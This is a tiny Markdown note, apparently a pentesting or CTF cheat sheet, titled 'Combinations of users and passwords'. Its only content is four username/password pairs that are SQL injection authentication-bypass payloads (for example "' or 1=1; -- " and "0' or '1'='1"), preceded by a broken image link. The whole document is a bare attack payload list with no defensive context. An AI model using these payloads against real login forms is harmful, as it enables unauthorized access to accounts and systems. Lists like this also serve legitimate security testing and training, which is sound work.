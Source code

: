 # Combinations of users and passwords


`' or 1=1; -- ']` :: `randomshiz`   
`xxx' or 1=1; -- ']` :: `randomshiz`   
`'-0||'` :: `1`   
`0' or '1'='1` :: `0' or '1'='1`
